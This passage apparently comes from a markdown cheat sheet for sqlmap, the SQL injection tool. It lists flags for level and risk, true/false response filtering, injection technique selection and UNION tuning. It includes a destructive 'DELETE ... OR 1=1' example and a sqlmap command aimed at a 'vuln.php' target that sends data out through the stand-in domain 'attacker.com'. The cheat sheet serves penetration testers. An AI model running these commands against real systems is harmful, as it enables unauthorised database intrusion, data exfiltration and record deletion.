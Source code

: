 ># Default
>--level=1 --risk=1 # 72 payloads
>
># Most thorough
>--level=5 --risk=3 # 7,865 payloads
>```
>>[!warning]
>>Increasing the `RISK` may include `OR` payloads, which are inherently dangerous; they could delete or change existing database records, eg:
>>```sql
>>DELETE FROM users WHERE id='1' OR 1=1
>>```
>
>##### TRUE and FALSE filtering
>```powershell
># Status codes
>--code=200
>
># HTML title tag
>--titles
>
># Strings
>--string=success
>
># Base the comparison on the visible text, not the HTML tags
>--text-only
>```
>
>##### Technique characters (BEUSTQ)
>```powershell
>--technique=B # boolean-based blind
>--technique=E # error-based
>--technique=U # UNION query-based
>--technique=S # stacked
>--technique=T # time-based
>--technique=Q # inline
>--technique=BEU # multiple
>sqlmap -u "http://target.com/vuln.php?id=1" --dns-domain=attacker.com # out-of-band
>```
>
>##### UNION tuning
>```powershell
># There are 17 columns
>--union-cols=17
>
># Set 'a' as the filling value instead of default NULL and random integer
>--union-char='a'
>
># Add a 'FROM users' table syntax - required for Oracle databases
>--union-from=table # generic
>--union-from=users # example
>```
